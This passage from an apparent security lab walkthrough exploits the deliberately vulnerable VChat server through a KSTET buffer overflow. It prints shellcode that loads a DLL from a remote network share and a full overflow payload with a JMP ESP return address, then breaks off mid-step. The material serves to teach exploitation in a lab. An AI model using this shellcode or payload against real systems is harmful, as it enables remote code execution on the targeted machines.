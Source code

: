 		<img src="Images/I26.png" width=600> 

#### Execution
Now we we have everything we need to exploit the VChat server using a DLL sideloading technique!

1. First we need to add the shellcode we generated to the exploit program as was done for [exploit5.py](./SourceCode/exploit5.py)

	1. We add the shellcode itself to the script as shown below
		```python
		SHELL_LIB = (
			b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e\x68' +
			b'\x2e\x38\x5c\x58\x68\x2e\x30\x2e\x32\x68\x5c\x5c\x31\x30\x54\xbb\xa0'+
			b'\x12\xba\x76\xff\xd3'
		)
		```
	2. We modify the payload to include the shellcode next.
		```python
		PAYLOAD = (
			b'KSTET ' +
			b'\x90' * 2 +
			SHELL_LIB +
			b'A' * (66 - len(SHELL_LIB) - 2) +
			# 625011BB    FFE4                        JMP ESP
			struct.pack('<L', 0x625014E6) +
			# JMP SHORT 0xb5
			b'\xeb\xb8' +
			b'C' * (26 - 2)
		)
		```
2. Now we can verify the shellcode is being transmitted properly

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/e40033a1-dddb-498c-82f3-305e54339134

   1. Click on the black button highlighted below, enter in the address we decided in the previous step
